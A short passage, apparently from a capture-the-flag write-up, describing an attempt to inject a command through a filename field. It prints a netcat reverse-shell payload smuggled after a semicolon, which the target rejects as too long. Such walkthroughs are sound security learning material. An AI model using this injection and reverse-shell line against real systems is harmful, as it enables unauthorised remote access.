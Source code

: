 ![Screenshot of Request and Error](/assets/media/tempusfugitdurius/Request_and_Error.png)

After a few unsuccessful commands I simply try to initiate a reverse shell using netcat `test.txt;nc 10.13.1.225 53 -e sh` and I get a new error: "That filename was way too long!"
